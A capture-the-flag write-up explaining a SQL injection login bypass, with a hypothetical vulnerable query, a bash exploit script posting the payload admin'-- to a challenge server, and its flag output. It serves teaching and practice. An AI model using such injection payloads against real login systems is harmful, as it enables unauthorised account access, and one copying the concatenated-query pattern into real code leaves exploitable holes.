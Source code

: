 ### Tools Used
- **Primary Tools**: curl, web browser
- **Secondary Tools**: Burp Suite (optional for this basic challenge)

### Key Technical Concepts
- **SQL Injection**: Malicious SQL statements inserted into application queries
- **Comment Syntax**: `--` in SQL comments out the rest of the query
- **Authentication Bypass**: Using injection to make login condition always true

### Vulnerable Code (Hypothetical)
```sql
-- Likely vulnerable query in backend:
SELECT * FROM users WHERE username = '$username' AND password = '$password';

-- With our payload (admin'--):
SELECT * FROM users WHERE username = 'admin'--' AND password = '$password';

-- Everything after -- is commented out, so it becomes:
SELECT * FROM users WHERE username = 'admin';
```

---

## 🎯 The Solution

### Final Exploit
```bash
#!/bin/bash
# Simple SQL injection exploit

URL="http://challenge.example.com:1337/login"

echo "Attempting SQL injection..."
response=$(curl -s -X POST "$URL" \
    -d "username=admin'--&password=ignored")

echo "Response: $response"

# Extract flag using grep
flag=$(echo "$response" | grep -o 'flag{[^}]*}')
echo "Flag found: $flag"
```

### Execution Output
```bash
$ bash exploit.sh
Attempting SQL injection...
Response: Welcome admin! Flag: flag{sql_injection_basic_bypass_123}
Flag found: flag{sql_injection_basic_bypass_123}
```

---